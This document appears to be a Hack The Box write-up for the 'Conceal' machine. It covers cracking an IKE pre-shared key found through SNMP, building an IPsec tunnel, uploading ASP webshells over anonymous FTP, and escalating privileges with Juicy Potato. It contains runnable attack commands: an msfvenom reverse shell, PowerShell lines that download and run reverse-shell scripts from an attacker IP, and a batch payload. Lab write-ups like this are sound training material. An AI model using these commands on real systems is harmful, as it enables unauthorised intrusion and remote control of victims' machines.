conceal


This box is unique because running nmap you notice no services are available on the box after a tcp scan
UDP scan shows port 500 open running isakmp, which is a key exchange protcol, looks like we need to connect to the box via a vpn tunnel to this box in order to enumerate its services
nmap Automator
strangely enough, all the services on the box besides the isakmp UDP service seem to be... concealed.

However, the UDP scan shows port 500 open running isakmp, which is a key exchange protcol, looks like we need to connect via a vpn tunnel to this box in order to enumerate its services

setting up vpn tunnel
snmpwalksnmp-check
ike-scan
strongswan setup
tunnel succes verification
snmpwalk


first couple of lines leak a preshared key:
IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43

crackstation
lets plug this hash into crackstation and see what we get
Dudecake1!
snmp-check
smpt-check is incredibly useful for further enumeration on snmp services
from this we see
ftp is running
http is running
smb is running

161 is snmp
500 is ipsec-ike (will abuse)
4500 is ipsec ISAKMP (will abuse)
5355 is LLMNR reposder abuses (does net-bios queries)
137 smb stuff
138 smb stuff
1900 (UPNP)
others are unknown/ephemeral services
ike-scan
-M for multi-line
SA is security association: SA=
(Enc=3DES
Hash=SHA1
Group=2:modp1024
Auth=PSK (Dudecake1!)
LifeType=Seconds
LifeDuration(4)=0x00007080) this is in hex so convert it

LifeDuration(4)=28800) (8 hours)
ALSO NOTE

ike is version 1 (we'll need this as well for our tunnel)
we'll need this info for when we build our own vpn tunnel to the box
strongswan
strongswan is an ipsec tunneling program
establishing an ipsec tunnel is done through 2 configuration files
first
ipsec.secrets manual:

we have to update our /etc/ipsec.secrets file with the following:

10.10.10.116 %any : PSK "Dudecake1!"
second
ipsec.conf manual
vi /etc/ipsec.secrets


we add the include .inc file and our PSK from before
vi ipsec.conf
to configure our tunnel we're going to need to add a connection profile to our ipsec.conf filefirst we declare our tunnel name conceal


type: we use trial and error on the tunnel being either tunnel OR transport type and see which one works

next we set keyexchange
because our ike-scan reported


next we set left (think left side of the connection or our attacking machine IP)

next we set right, or conceal's IP address

next we set authentication type which is authby to pre-shared key or 'psk'

next we set the encapsulting security payload or ‘esp’ which is
 and
and 

next we set the internet key exchange or IKE key which is 3des-sha1-modp24 

next we do lifetime  which we know is 8 hours from our hex to decimal to hours

finally we add and auto=start parameter
our connection tunnel profile looks like this:

also its nice to add fragmentation=yes since it is supported in the ike-scan


start tunnel
to start the tunnel using strongswan, issue the followingipsec start --nofork

unfortunately we get an error message INVALID_ID_INFORMATION (see child note for troubleshoot)

(new connection profile)

and now we see ipsec start --nofork ending with no errors:

troubleshooting with netgate
ippsec recommends using netgate ipsec to troubleshoot tunnel error messages that shows all the common error messages
 +
+by default this tunnel is connecting via TCP, however from our nmap scans we know our tunnel's TCP protocol is only configured on the windows side and not our attack machine's side
as proof, if we run nmap scan sending a SYN packet via nmap to port 445 we see that it is filtered, however if we specifiy TCP, we see it is open

the solution is to specifiy TCP on our tunnel via leftprotoport and rightprotoport

updating our ipsec.conf file conceal connection profile with

tunnel success verification
before tunnel:
after tunnel
-sT for tcp scan (syn scans come back filtered)

potential tunnel issue fixes
because we are tunneling through 2 separate VPNS, we have about 7% overhead from the data we're sending around which may lead to connection problems with our tunnel

you can solve this issue by lowering the mtu or maximum transmission unit
ifconfig tun0 mtu 1000

initial foothold
doing some box enumeration and connecting to the box's ftp server via anonymous loginuploading a webshell with tennc's github repo
using that webshell to call back a reverse powershell with nishang's Invoke-PowershellTCP.ps1
http

gobuster
there is an /upload directory, probably stores to the ftp server contents
ftp
nmap scan showed annonymous login was configured on the ftp server
now to generate a test.txt file and upload it to the ftp server

and we see our file is in the /upload directory of our webserver

test.aspx
uploading test.aspx to the ftp server gives us:

says the extension configuration caused the page to not get served, meaning the .aspx extension wont work, lets try .asp
test.asp
.asp extension works!
but it looks like the ftp server deletes its contents every minute or so because after a short while:

revshell.asp
lets try to upload a reverse shell from msfvenom regardless
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.62 LPORT=4444 -f asp > shell.asp

this webshell gives us a 500 server error unfortunately because the antivirus recognized the payload as malicious, however there are plenty of webshells to choose from online that should bypass this
tennc webshell github
theres a great github repository filled with webshells we can use thanks to ippsec found here

to find .asp files we can simply grep for them
find . | grep .asp$
($ to return results where .asp is at the end of the filename)



picking webshell payload
webshell

upload it to the ftp server
put cmdasp.asp

we see here that the antivirus caught this payload, so we'll need another

feel free to try random webshells and see which ones work, tennc's webshell has a huge variety to choose from, however this one worked for me
we see we have command execution!



nishang reverse shell
since the box's ftp server clears itself everyfew minutes, its best to upload a reverse shell in our webshell and run it before it gets cleared in order to get our footholdfirst lets move nishang's Invoke-PowershellTcp over to our working directory

edit the file and add the Invoke-PowerShellTcp command at the end of the script

rename the reverse shell script to something simple

spin up the webserver

now the hard and timely part of uploading and executing our nishang script before the webserver clears our webshell
powershell "IEX(new-object net.webclient).downloadstring('http://10.10.14.62:5555/rev.ps1')


reverse shell
andddd... we have our foothold!
privesc
windows-exploit suggesterwhoami /priv
juicy potato
windows-exploit suggester
a great go-to first privesc step on all windows boxes is to copy its systeminfo output and run windows-exploit-suggester on it./windows-exploit-suggester.py -d 2020-07-21-mssb.xls -i ~/Documents/htb/boxes/conceal/systeminfo
where
-d specifies the database windows-exploit-suggester.py uses to find exploit (good to update before running with )
-i specifies the systeminfo results copied into a text file

full report:



systeminfo
we can use this for our windows-exploit-suggestor if we need to down the line:
Host Name: CONCEAL
OS Name: Microsoft Windows 10 Enterprise
OS Version: 10.0.15063 N/A Build 15063
OS Manufacturer: Microsoft Corporation
OS Configuration: Standalone Workstation
OS Build Type: Multiprocessor Free
Registered Owner: Windows User
Registered Organization:
Product ID: 00329-00000-00003-AA343
Original Install Date: 12/10/2018, 20:04:27
System Boot Time: 21/07/2020, 03:29:21
System Manufacturer: VMware, Inc.
System Model: VMware Virtual Platform
System Type: x64-based PC
Processor(s): 1 Processor(s) Installed.
[01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version: Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory: C:\Windows
System Directory: C:\Windows\system32
Boot Device: \Device\HarddiskVolume1
System Locale: en-gb;English (United Kingdom)
Input Locale: en-gb;English (United Kingdom)
Time Zone: (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory: 2,047 MB
Available Physical Memory: 1,292 MB
Virtual Memory: Max Size: 3,199 MB
Virtual Memory: Available: 2,382 MB
Virtual Memory: In Use: 817 MB
Page File Location(s): C:\pagefile.sys
Domain: WORKGROUP
Logon Server: N/A
Hotfix(s): N/A
Network Card(s): 1 NIC(s) Installed.
[01]: Intel(R) 82574L Gigabit Network Connection
Connection Name: Ethernet0
DHCP Enabled: No
IP address(es)
[01]: 10.10.10.116
[02]: fe80::9074:409:94e8:e84e
[03]: dead:beef::2d07:bc3a:2c18:6fa6
[04]: dead:beef::9074:409:94e8:e84e
Hyper-V Requirements: A hypervisor has been detected. Features required for Hyper-V will not be displayed.
OS Name: Microsoft Windows 10 Enterprise
OS Version: 10.0.15063 N/A Build 15063
OS Manufacturer: Microsoft Corporation
OS Configuration: Standalone Workstation
OS Build Type: Multiprocessor Free
Registered Owner: Windows User
Registered Organization:
Product ID: 00329-00000-00003-AA343
Original Install Date: 12/10/2018, 20:04:27
System Boot Time: 21/07/2020, 03:29:21
System Manufacturer: VMware, Inc.
System Model: VMware Virtual Platform
System Type: x64-based PC
Processor(s): 1 Processor(s) Installed.
[01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version: Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory: C:\Windows
System Directory: C:\Windows\system32
Boot Device: \Device\HarddiskVolume1
System Locale: en-gb;English (United Kingdom)
Input Locale: en-gb;English (United Kingdom)
Time Zone: (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory: 2,047 MB
Available Physical Memory: 1,292 MB
Virtual Memory: Max Size: 3,199 MB
Virtual Memory: Available: 2,382 MB
Virtual Memory: In Use: 817 MB
Page File Location(s): C:\pagefile.sys
Domain: WORKGROUP
Logon Server: N/A
Hotfix(s): N/A
Network Card(s): 1 NIC(s) Installed.
[01]: Intel(R) 82574L Gigabit Network Connection
Connection Name: Ethernet0
DHCP Enabled: No
IP address(es)
[01]: 10.10.10.116
[02]: fe80::9074:409:94e8:e84e
[03]: dead:beef::2d07:bc3a:2c18:6fa6
[04]: dead:beef::9074:409:94e8:e84e
Hyper-V Requirements: A hypervisor has been detected. Features required for Hyper-V will not be displayed.
whoami /priv
another smart enumeration step (before busting our WinPEAS, etc) is to see what kind of privileges our owned user has with whoami /priv
--->

this permission usually points to a vulnerability to the popular juicy potato exploit, lets try that
juicy potato
Juicy Potato requires 3 steps to run manually:1)upload juicy potato to our victim,
2)upload a batch script we can write locally to our victim for juicy potato to run as administrator when it executes
3)run juicy potato
1)
powershell IEX(new-object net.webclient).downloadfile('http://10.10.14.62:5555/jp.exe','C:\Users\Destitute\Desktop\jp.exe')
and make a copy of our nishang shell and configure the Invoke-PowerShellTcp command to connect to a different numbered port
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.62 -Port 9002

2)

@ECHO OFF
PowerShell.exe -Command "IEX(new-object net.webclient).downloadstring('http://10.10.14.62:5555/revshell2.ps1')"
PAUSE

download this bat to the victim
powershell IEX(new-object net.webclient).downloadfile('http://10.10.14.62:5555/shell.bat','C:\Users\Destitute\Desktop\shell.bat')
3)
./jp.exe -t * -p shell.bat -l 9001

this error usually means the CLSID or the software application's class identifier errored out, there are many to choose from on the juicy potato github repository
rerun with correct CLSID
https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Enterprise{e60687f7-01a1-40aa-86ac-db1cbf673334}

now we run juicy potato again and set the CLSID with -c <CLSID>
./jp.exe -p shell.bat -l 9001 -t * -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
rev shell to nt auth
and we're root!
user/root
6E9FDFE0DCB66E700FB9CB824AE5A6FF

5737DD2EDC29B5B219BC43E60866BE08
lessons learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/